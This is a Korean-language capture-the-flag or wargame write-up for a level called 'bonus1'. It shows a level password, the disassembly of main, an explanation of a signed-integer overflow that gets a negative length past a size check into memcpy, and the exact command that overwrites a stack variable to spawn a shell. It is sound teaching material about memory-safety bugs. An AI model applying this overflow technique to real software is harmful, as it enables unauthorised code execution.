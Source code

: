 > Password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

main 함수의 어셈블리 코드를 보면

```
08048424 <main>:
 8048424:	55                   	push   %ebp
 8048425:	89 e5                	mov    %esp,%ebp
 8048427:	83 e4 f0             	and    $0xfffffff0,%esp
 804842a:	83 ec 40             	sub    $0x40,%esp
 804842d:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048430:	83 c0 04             	add    $0x4,%eax
 8048433:	8b 00                	mov    (%eax),%eax
 8048435:	89 04 24             	mov    %eax,(%esp)
 8048438:	e8 23 ff ff ff       	call   8048360 <atoi@plt>
 804843d:	89 44 24 3c          	mov    %eax,0x3c(%esp)
 8048441:	83 7c 24 3c 09       	cmpl   $0x9,0x3c(%esp)
 8048446:	7e 07                	jle    804844f <main+0x2b>
 8048448:	b8 01 00 00 00       	mov    $0x1,%eax
 804844d:	eb 54                	jmp    80484a3 <main+0x7f>
 804844f:	8b 44 24 3c          	mov    0x3c(%esp),%eax
 8048453:	8d 0c 85 00 00 00 00 	lea    0x0(,%eax,4),%ecx
 804845a:	8b 45 0c             	mov    0xc(%ebp),%eax
 804845d:	83 c0 08             	add    $0x8,%eax
 8048460:	8b 00                	mov    (%eax),%eax
 8048462:	89 c2                	mov    %eax,%edx
 8048464:	8d 44 24 14          	lea    0x14(%esp),%eax
 8048468:	89 4c 24 08          	mov    %ecx,0x8(%esp)
 804846c:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048470:	89 04 24             	mov    %eax,(%esp)
 8048473:	e8 a8 fe ff ff       	call   8048320 <memcpy@plt>
 8048478:	81 7c 24 3c 46 4c 4f 	cmpl   $0x574f4c46,0x3c(%esp)
 804847f:	57 
 8048480:	75 1c                	jne    804849e <main+0x7a>
 8048482:	c7 44 24 08 00 00 00 	movl   $0x0,0x8(%esp)
 8048489:	00 
 804848a:	c7 44 24 04 80 85 04 	movl   $0x8048580,0x4(%esp)
 8048491:	08 
 8048492:	c7 04 24 83 85 04 08 	movl   $0x8048583,(%esp)
 8048499:	e8 b2 fe ff ff       	call   8048350 <execl@plt>
 804849e:	b8 00 00 00 00       	mov    $0x0,%eax
 80484a3:	c9                   	leave  
 80484a4:	c3                   	ret
```

argv[1]을 atoi함수로 정수로 바꾼 뒤 그 수에 4를 곱하여 나온 길이 만큼 memcpy를 이용해서 argv[2]문자열을 스택 (0x14(%esp))에 집어넣은 뒤 0x3c(%esp)위치에 WOLF라는 문자열이 들어왔는지 확인하여 쉘을 실행하는 코드이다. 이 때 atoi(argv[1]) * 4의 값이 9보다 클 경우 프로그램이 즉시 종료되게 설계되어 있다.

0x14와 0x3c의 차가 40이므로, 집어넣어야 하는 문자열 WOLF의 길이까지 고려하면 총 44바이트만큼을 복사해야하고, 프로그램애서 * 4를 하는 로직이 있으니 실제로 argv[1] 으로 들어가야 하는 값은 11이다. 하지만 프로그램이 9보다 큰 값을 거부하므로 다른 접근을 생각해봐야 한다.

atoi는 부호 있는 정수를 취급한다는 점을 이용해서, 음수이지만 4를 곱했을 때 오버플로우가 일어나 44가 나오는 수를 argv[1]에 넣으면 문제를 해결할 수 있다.

44를 4로 나눈 값 11에서 부호 비트만을 1로 두면

1000 0000 0000 0000 0000 0000 0000 1011 (-2147483637) 이 되는데

이 값은 음수여서 9보다 작거나 같으면서, 4를 곱했을 때 부호 비트가 오버플로우로 소실되면서 44가 되는 수이다.

```bash
./bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
```
